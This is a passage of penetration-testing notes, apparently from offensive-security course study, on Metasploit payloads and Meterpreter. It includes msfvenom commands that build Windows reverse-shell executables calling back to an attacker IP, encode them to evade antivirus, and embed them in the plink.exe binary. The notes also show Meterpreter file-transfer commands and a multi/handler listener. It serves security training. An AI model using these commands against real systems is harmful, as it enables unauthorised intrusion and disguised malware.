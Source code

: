 ```txt
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
```
- A non-staged payload is sent in its entirety along with the exploit. 
- A staged payload is usually sent in two parts. The first part contains a small primary payload that causes the victim machine to connect back to the attacker, transfer a larger secondary payload containing the rest of the shellcode, and then execute it.

### Meterpreter Payloads
Meterpreter is a multi-function payload that can be dynamically extended at run-time. 
- In practice, this means that the Meterpreter shell provides more features and functionality than a regular command shell, offering capabilities such as file transfer, keylogging, and various other methods of interacting with the victim machine. 

```sh
msf6 exploit(windows/http/syncbreeze_bof) > search meterpreter type:payload
```
#### Experimenting with Meterpeter
```sh
meterpreter > help
```
Executing simple commands in meterpreter
```sh
meterpreter > sysinfo
meterpreter > getuid
```
Uploading and downloading files with meterpeter
```sh
meterpreter > upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec

meterpreter > download "c:\windows\system32\calc.exe" /tmp/calc.exe
```
The biggest advantage of spawning a system shell from within Meterpreter is that if, for some reason, our shell should die, we can exit the shell to return to the Meterpreter session and re-spawn a shell in a new channel.
```sh
meterpreter > shell
```
### Executable Payloads
The Metasploit Framework payloads can also be exported into various file types and formats, such as ASP, VBScript, Jar, War, Windows DLL and EXE, and more.
```sh
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.2 LPORT=443 -f exe -o shell_reverse.exe
```
Encoding the reverse shell payload
```sh
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.2 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```
Embedding a payload in `plink.exe`
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.2 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```
Embedding the payload in `plink.exe` from within msfconsole
```sh
msf6 payload(windows/shell_reverse_tcp) > generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```
### Metasploit Exploit Multi Handler
We should use the framework **multi/handler** module, which works for all single and multi-stage payloads.
```sh
msf6 payload(windows/shell_reverse_tcp) > use multi/handler
```
